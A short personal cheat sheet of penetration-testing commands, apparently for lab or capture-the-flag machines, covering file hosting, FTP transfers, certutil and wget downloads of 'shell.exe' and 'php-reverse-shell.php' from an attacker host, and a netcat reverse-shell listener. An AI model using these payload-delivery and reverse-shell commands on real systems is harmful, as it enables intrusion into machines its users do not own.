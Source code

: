# Past Commands
This contains any commands that I have used in the past that I feel will be helpful in the future so that it is easily accessible.

## Host current directory so files can be downloaded
##### Kali Linux
```python -m SimpleHTTPServer``` (on directory you want to download files from).

## FTP
##### Download file from FTP:

```get <file>``` 

NOTE: ```ascii``` and ```ascii``` modes of ```get```. ```ascii```: transfers files as text. Exampels of files to get using this mode: .txt, .asp, .html, .php, etc. ```binary```: transfers files as raw data. Examples of files to get using this mode: .wav, .jpg, .gif, .mp3, and .mdb files.

## Getting files to Windows via CMD/Powershell
##### Windows 2008, Powershell v2.0 (from pythom -m SimpleHTTPServer)
```
certutil.exe -urlcache -split -f "http://10.10.14.27:8000/shell.exe" shell.exe
```

## Getting files to Linux
##### wget (from python -m SimpleHTTPServer)
```
wget 10.10.14.2:8000/php-reverse-shell.php
```

## Reverse Shells
##### Creating a netcat listener
```
nc -nvlp [port]
```
